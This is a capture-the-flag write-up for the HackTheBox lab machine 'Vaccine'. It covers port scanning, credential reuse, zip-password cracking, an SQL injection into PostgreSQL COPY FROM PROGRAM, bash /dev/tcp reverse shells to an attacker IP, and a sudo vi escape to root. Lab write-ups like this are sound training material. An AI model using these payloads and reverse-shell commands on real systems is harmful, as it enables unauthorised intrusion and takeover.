 # hackthebox.eu box "Vaccine"

## 1. Recon

### nmap

We start by running `nmap`, a network discovery tool, on our target, `10.10.10.46`:

    nmap 10.10.10.46 -sV -sC

This is the console output:

```
vagrant@vagrant-virtualbox ~> nmap 10.10.10.46 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 14:53 CDT
Nmap scan report for 10.10.10.46
Host is up (0.049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

We can see that ftp, ssh, and http are open services. So, port 21, 22, and 80.

## 2. FTP credentials

Reusing credentials from the previous box, 'Oopsie', from this FileZilla XML file:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

We connect and download [`backup.zip`](downloaded-files/backup.zip) file. I used FileZilla, but you could use any client you like.

## 3. Cracking the zip file password

I used the rockyou.txt wordlist to crack the zip file's password.

    fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

The password ended up being `741852963`.

There are 2 files inside `backup.zip`:

    backup
    ├── index.php
    └── style.css

## 4. Hardcoded password hash

In `index.php` on line 5, we can see a hardcoded MD5 password hash:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
```

This means our cred is

    admin:2cb42f8734ea607eefed3b70af13bbd3

I used an online md5 database, and retrieved:

    admin:qwerty789

I could have used `hashcat` if the online md5 database did not yield results.

## 5. Logging into the site

I logged into the site using `admin:qwerty789` and noticed an SQL injectable form.

<http://10.10.10.46/dashboard.php?search=a>

## 6. SQL Injection into reverse shell

So I got the PHPSESSID cookie and got a reverse shell.

    sqlmap "http://10.10.10.46/dashboard.php?search=test" --cookie="PHPSESSID=jvf28f80n6p99j8nkfa9nq3tmm" --os-shell --random-agent

I then started a new one as sqlmap's reverse shell is limited.

### Upgrading from sqlmap reverse shell

Note that `10.10.14.184` is the attacker's IP address.

Attacker runs (to receive TCP connection):

    nc -lvp 1234

Victim runs (to establish TCP connection):

    bash -c 'bash -i >& /dev/tcp/10.10.14.184/1234 0>&1'

And to upgrade shell:

    SHELL=/bin/bash script -q /dev/null

We are now logged in as the `postgres` user.

This is the payload:

    test';DROP TABLE IF EXISTS sqlmapoutput;CREATE TABLE sqlmapoutput(data text);COPY sqlmapoutput FROM PROGRAM '    bash -c ''bash -i >& /dev/tcp/10.10.14.184/6969 0>&1''';--

And this is the HTTP request that gets sent to the server:
    
    GET /dashboard.php?search=test%27%3BDROP%20TABLE%20IF%20EXISTS%20sqlmapoutput%3BCREATE%20TABLE%20sqlmapoutput%28data%20text%29%3BCOPY%20sqlmapoutput%20FROM%20PROGRAM%20%27%20%20%20%20bash%20-c%20%27%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.196%2F6969%200%3E%261%27%27%27%3B-- HTTP/1.1
    Cache-control: no-cache
    Cookie: PHPSESSID=51ai5vlm0bsmiragl1lnv2t3qg
    User-agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.2) Gecko/2008092000 Ubuntu/8.04 (hardy) Firefox/3.0.2
    Host: 10.10.10.46
    Accept: */*
    Accept-encoding: gzip,deflate
    Connection: close

## 7. More hardcoded credentials

We `cd` to `/var/www/`, and inside `dashboard.php` on line 41 is this line:

    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

## 8. Using `vi` to get a root shell

Now we can run `sudo -l` to list the commands that `postgres` is allowed to run.

    postgres@vaccine:/var/www/html$ sudo -l        
    sudo -l
    [sudo] password for postgres: P@s5w0rd!

    Matching Defaults entries for postgres on vaccine:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

So we can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

If I run `vi` as root with:

    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

And then, inside `vi`, type:

    <ESC>:!/bin/bash<ENTER>

I should spawn a root shell. Let's try it.

See the wonky output below. Line 11. `^[` is `<ESC>`. Below the content of the `/etc/postgresql/11/main/pg_hba.conf` file, you can see shell commands.


    # DO NOT DISABLE!
    # If you change this first entry you will need to make sure that the
    # database superuser can access the database using some other method.
    # Noninteractive access to all databases is required during automatic
    # maintenance (custom daily cronjobs, replication, and similar tasks).
    #
    # Database administrative login by Unix domain socket

    # TYPE  DATABASE        USER            ADDRESS                 METHOD
                                                                            
    local   all             postgres                                iden^[:!/bin/bash <-- X
    # "local" is for Unix domain socket connections only
    local   all             all                                     peer
    # IPv4 local connections:
    host    all             all             127.0.0.1/32            md5
    # IPv6 local connections:
    host    all             all             ::1/128                 md5
    # Allow replication connections from localhost, by a user with the
    # replication privilege.
    local   replication     all                                     peer
    host    replication     all             127.0.0.1/32            md5
    host    replication     all             ::1/128                 md5
    :!/bin/bash
    root@vaccine:/var/lib/postgresql/11/main# whoami
    whoami
    root
    root@vaccine:/var/lib/postgresql/11/main# 

We're root!